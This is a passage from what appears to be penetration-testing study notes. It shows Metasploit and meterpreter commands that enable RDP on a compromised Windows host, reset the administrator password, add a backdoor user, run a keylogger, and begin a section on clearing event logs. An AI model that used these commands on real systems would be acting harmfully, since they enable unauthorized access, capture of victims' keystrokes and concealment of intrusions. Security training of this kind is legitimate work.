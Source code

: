 Remember that RDP uses by default the port 3389.

RDP is disabled by default. However, if we get initial access to a system, then we can easily
enable it using post exploititation modules. We'll also need to create ourselves a user to
legitimately authenticate via RDP.

```bash
meterpreter > bg
msf6 > use post/windows/manage/enable_rdp
msf6 post(windows/manage/enable_rdp) > set ENABLE true
msf6 post(windows/manage/enable_rdp) > set LPORT [PORT_TO_FORWARD]
msf6 post(windows/manage/enable_rdp) > set SESSION [SESSION_ID]
msf6 post(windows/manage/enable_rdp) > run
meterpreter > shell
C:\> net user administrator [NEW_PASSWORD]
# if you have the privs you can change a password directly. if by any reason you cant
# change a user's password, try to create a new user
C:\> net user [USER] [PASSWORD] /ADD
C:\> net localgroup [GROUPNAME] [USERNAME] /ADD
# you can also use the incognito module to create users and add them to groups, but
# we need to familiarize ourselvs with the CMD/Powershell
$ xfreerdp /u:[USER] /p:[PASSWORD] /v:[TARGET]
```

<a id=7.2.7></a>
### Keylogging

Keylogging is the process of recording or capturing keystrokes on a target system. This technique
isn't merely part of post exploitation, in fact it can be the vector to obtain initial access, using a malicious
USB that hides an HID interface, sending the keys back to an attacker.

```bash
meterpreter > keyscan_start
# starts the keylogger
meterpreter > keyscan_stop
# stops the keylogger
meterpreter > keyscan_dump
# dumps the keystroke buffer
meterpreter > keyboard_send
# manipulate the remote keyboard and type whatever you want.
# useless? perhaps. would the end user be scared shitless? most possibly.
```

<a id=7.2.8></a>
### Clearing our tracks

Windows stores and catalogs most of the actions we perform on the system and stores them on the Event Log.

Event logs can be categorized in the following sections:

- Application logs: Stores application event logs like startup, crashes, etc.
- System logs: Stores event logs like system startup, shutdown, etc.
- Security logs: Stores security events like password changes, authentication failures and more.
